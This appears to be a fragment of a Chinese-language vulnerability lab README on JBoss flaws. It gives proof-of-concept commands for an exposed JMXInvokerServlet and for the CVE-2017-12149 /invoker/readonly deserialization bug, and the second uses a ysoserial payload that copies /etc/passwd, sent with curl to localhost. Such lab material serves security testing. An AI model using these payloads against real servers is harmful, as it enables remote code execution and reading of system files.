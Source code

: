 ### 运维安全 - JMXInvoker/HTMLAdaptor/... 对外暴露

测试镜像

* src/base/jboss4.0

Poc

```
java -jar jboss_exploit_fat.jar -i http://127.0.0.1/invoker/JMXInvokerServlet
```

### CVE-2017-12149 - /invoker/readonly 反序列化漏洞

参考文档

* [JBoss反序列化漏洞（CVE-2017-12149）](https://zhuanlan.zhihu.com/p/33532884)

Poc

```
# 生成 payload
java -jar /tmp/ysoserial.jar Jdk7u21 "cp /etc/passwd /tmp" > test

# 提交
curl -vv http://127.0.0.1/invoker/readonly --data-binary @test
```

